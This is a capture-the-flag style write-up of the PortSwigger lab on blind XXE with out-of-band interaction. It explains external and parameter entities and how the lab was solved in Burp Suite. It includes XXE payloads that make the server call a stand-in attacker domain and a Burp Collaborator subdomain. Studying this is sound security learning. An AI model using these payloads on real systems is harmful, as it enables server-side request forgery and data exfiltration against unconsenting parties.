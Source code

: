 ## Blind XXE with out-of-band interaction

**Title:** Blind XXE with out-of-band interaction. [Go](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)

**Description:**
This lab has a "Check stock" feature that parses XML input but does not display the result. You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain. To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 


## Preface


Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two broad ways in which you can find and exploit blind XXE vulnerabilities:

- You can trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data.
- You can trigger XML parsing errors in such a way that the error messages contain sensitive data.

You can often detect blind XXE using the same technique as for XXE SSRF attacks but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

 Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:
`<!ENTITY % myparameterentity "my parameter entity value" >`

And second, parameter entities are referenced using the percent character instead of the usual ampersand: `%myparameterentity;`

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:
`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful. 

## Methodology

### Finding the vulnerable parameter

While solving this lab we are interested in `Check stock` functionality.

### My thought

After clicking "Check stock" and intercepting the resulting POST request in Burp Suite Professional we inserted the following external entity definition in between the XML declaration and the `stockCheck` element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:
`<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>`. We replaced the `productId` number with a reference to the external entity: `&xxe;`. In Collaborator tab we clicked "Poll now" to see DNS and HTTP interactions that were initiated by the application as the result of our payload.
